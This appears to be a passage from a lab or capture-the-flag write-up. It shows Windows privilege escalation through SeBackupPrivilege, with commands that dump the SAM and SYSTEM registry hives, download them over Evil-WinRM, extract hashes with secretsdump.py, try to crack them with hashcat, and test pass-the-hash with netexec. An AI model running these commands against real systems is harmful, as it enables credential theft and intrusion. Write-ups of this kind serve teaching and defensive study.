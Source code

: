 
## Privilege Escalation – Abusing SeBackupPrivilege

The account `h.grangon` had the `SeBackupPrivilege` right enabled.  
This privilege allows reading of otherwise protected system files, 
including registry hives containing sensitive credential data.

### Dumping the Registry Hives
Using `reg save`, the SAM and SYSTEM hives were exported to a writable directory:

```powershell
*Evil-WinRM* PS C:\Users\h.grangon\Documents> mkdir C:\temp

*Evil-WinRM* PS C:\Users\h.grangon\Documents> reg save hklm\sam C:\temp\sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\h.grangon\Documents> reg save hklm\system C:\temp\system.hive
The operation completed successfully.
```


### Downloading the Hive Files

Once the SAM and SYSTEM hives were saved into `C:\temp`, they were 
downloaded to the attacker machine with Evil-WinRM.

```bash
download "C:\\temp\\sam.hive"
download "C:\\temp\\system.hive"
```

--- 

## Credential Extraction – Local Administrator

Using the dumped SAM and SYSTEM hives, Impacket’s `secretsdump.py` was used to extract local account hashes:

```bash
secretsdump.py -sam sam.hive -system system.hive LOCAL
```

An attempt was made to crack the Administrator hash with hashcat but did not yield the password. 

```bash 
hashcat -m 1000 -a 0 admin.hash /usr/share/wordlists/rockyou.txt
```

## Lateral Movement – Pass-the-Hash as Administrator

The local Administrator hash was obtained from the SAM and SYSTEM hives 
using `secretsdump.py`. Although not crackable with common wordlists, 
it could be used directly with pass-the-hash.

### Validating the Hash with NetExec
```bash
netexec smb 10.0.16.170 -u Administrator -H <NTLM_hash>
```
